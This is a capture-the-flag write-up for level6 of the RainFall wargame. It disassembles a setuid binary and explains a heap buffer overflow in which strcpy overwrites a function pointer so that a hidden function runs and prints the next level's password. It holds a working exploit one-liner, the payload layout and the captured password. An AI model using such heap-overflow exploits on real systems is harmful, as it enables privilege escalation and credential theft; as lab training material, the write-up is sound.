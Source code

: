 # Level6

We can find an executable who segfault without parameter and print "Nope\n" with.
```
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 a
Nope
level6@RainFall:~$
```
After analyze it with radare2 (please refer to [level1](https://github.com/maxisimo/42-RainFall/blob/main/level1/walkthrough.md) if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `m()` but there is also a non-called `n()` function.  
- main() :
```
[0x080483a0]> s main
[0x0804847c]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level6 @ 0x804847c */     
                                                 | #include <stdint.h>
                                                 |
    ; (fcn) main ()                              | int32_t main (char ** envp) {
                                                 |     char * src;
                                                 |     void * var_18h;
                                                 |     char * dest;
    0x0804847c push ebp                          |
    0x0804847d mov ebp, esp                      |
    0x0804847f and esp, 0xfffffff0               |
    0x08048482 sub esp, 0x20                     |
    0x08048485 mov dword [esp], 0x40             |     
    0x0804848c call 0x8048350                    |     eax = malloc (0x40);
    0x08048491 mov dword [esp + 0x1c], eax       |     *((esp + 0x1c)) = eax;
    0x08048495 mov dword [esp], 4                |
    0x0804849c call 0x8048350                    |     eax = malloc (4);
    0x080484a1 mov dword [esp + 0x18], eax       |     *((esp + 0x18)) = eax;
    0x080484a5 mov edx, 0x8048468                |     edx = m;
    0x080484aa mov eax, dword [esp + 0x18]       |     eax = *((esp + 0x18));
    0x080484ae mov dword [eax], edx              |     *(eax) = edx;
    0x080484b0 mov eax, dword [ebp + 0xc]        |     eax = *((ebp + 0xc));
    0x080484b3 add eax, 4                        |     eax += 4;
    0x080484b6 mov eax, dword [eax]              |     eax = *(eax);
    0x080484b8 mov edx, eax                      |     edx = *(eax);
    0x080484ba mov eax, dword [esp + 0x1c]       |     eax = *((esp + 0x1c));
    0x080484be mov dword [esp + 4], edx          |     *((esp + 4)) = edx;
    0x080484c2 mov dword [esp], eax              |
    0x080484c5 call 0x8048340                    |     strcpy (eax);
    0x080484ca mov eax, dword [esp + 0x18]       |     eax = *((esp + 0x18));
    0x080484ce mov eax, dword [eax]              |     eax = *(eax);
    0x080484d0 call eax                          |     void (*eax)() ();
    0x080484d2 leave                             |
    0x080484d3 ret                               |     return eax;
                                                 | }
[0x0804847c]>
```
- m() :
```
[0x0804847c]> s sym.m
[0x08048468]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level6 @ 0x8048468 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.m ()                             | void m (void) {
    0x08048468 push ebp                          |
    0x08048469 mov ebp, esp                      |
    0x0804846b sub esp, 0x18                     |
    0x0804846e mov dword [esp], 0x80485d1        |     
    0x08048475 call 0x8048360                    |     puts ("Nope");
    0x0804847a leave                             |
    0x0804847b ret                               |
                                                 | }
[0x08048468]>
```
- n() :
```
[0x08048468]> s sym.n
[0x08048454]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level6 @ 0x8048454 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.n ()                             | void n (void) {
    0x08048454 push ebp                          |
    0x08048455 mov ebp, esp                      |
    0x08048457 sub esp, 0x18                     |
    0x0804845a mov dword [esp], 0x80485b0        |
    0x08048461 call 0x8048370                    |     system ("/bin/cat /home/user/level7/.pass");
    0x08048466 leave                             |     
    0x08048467 ret                               |
                                                 | }
[0x08048454]>
```
Lets talk about the `main()`.   
There is a call to malloc(64) and then strcpy argv[1] into this area on the heap.
After that we can see a call to a useless `m()` function also stored in a heap buffer (malloc(4)) who simply call `puts()`.  
But there is a call to `system()` in a usefull non-called `n()` function.  
We need to execute the `n()` function.  
The first argument (argv[1]) is not limited and, as we said before, there is a call to strcpy() wich is vulnerable to buffer overflow.  
We should create a payload long enough to be copied into the second malloc data area.  
First, get the offset. Thanks to the pattern generator we found an offset of 72.  
Our final attack buffer will look like :  
- pad of arbitrary data : 72 bytes
- `n()` address         : 4 bytes
```
level6@RainFall:~$ python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > /tmp/exploit
level6@RainFall:~$ cat /tmp/exploit | ./level6
Segmentation fault (core dumped)
level6@RainFall:~$
```
Obviously.. The usual method can't work because the program segfault without parameter
```
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$ su level7
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```
Level6 passed!
